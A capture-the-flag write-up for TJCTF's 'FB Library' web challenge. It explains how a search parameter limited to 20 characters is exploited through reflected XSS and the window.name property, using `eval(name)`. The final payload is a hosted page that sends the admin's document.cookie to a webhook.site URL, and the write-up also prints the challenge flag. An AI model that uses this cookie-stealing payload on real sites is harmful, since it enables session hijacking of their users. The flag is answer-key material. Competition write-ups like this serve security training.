





### FB Library

FB Library was the 2nd to last web challenge, with 20 solves and worth 90 points. However, it had the least solves, even though the solution was probably the shortest.

The website is a catalog of books where you can search for specific ones. You can register and login to accounts (but this was a red herring), as well as report URLs to the admin. There was a cookie named `session` that could be accessed by JavaScript, and an `/admin` endpoint that normal users couldn't access. Obvious XSS challenge.

Finding the XSS was easy too - the search parameter wasn't filtered and you could achieve XSS fairly quickly.



However, the problem came when trying to exploit this XSS - there was a length constraint of 20 characters.



Any input longer than 20 would get truncated to 17 characters. There was a report function where you could report to the admin any URL, but CORS was too strong and you couldn't make requests back to the website from your own domain.

That meant that we had to find an XSS vector with less than 20 characters. Looking at the source code of the website, we see:


There's a script tag with a comment below where our input is reflected. This means that we don't need to finish a script tag when injecting, and can just end our code with a comment. This allows us to inject code like `<script>alert(1)/*` and just barely get past the length restraint.

Not including the `<script>` and `/*`, we have a total of 10 characters with which to work with in a JS context. We need to find a place to store our exploit so we can evaluate any script we want. `eval` will take up 6 characters (`eval()`), which means that we need to find a 4 character long variable to exploit.

```javascript
for(var key in window) {
    if(key.length <= 4) console.log(key)
}
```



I first tried out jQuery, to no success. Eventually, I started looking into the `name` variable, and found [this](https://www.w3schools.com/jsref/prop_win_name.asp) page.

The `name` variable is set when using the `window.open()` method, and is one of the parameters in the function! From this point, the rest was simple.

Host a webpage with the following source:
```html
<script>
window.open("https://fb_library.tjctf.org/search?q=<script>eval(name)/*", "location.href=`https://webhook.site/72244fec-fd93-42f5-8b09-797fccfd078d?q=${document.cookie}`");
</script>
```

and you'll get the flag!



```
tjctf{trunc4t3d_n0_pr0bl3m_rly???}
```

**Note from Drakon:** There was another way to solve this with command injection, but I didn't actually manage to get that working so yeah. It *was* a thing, though.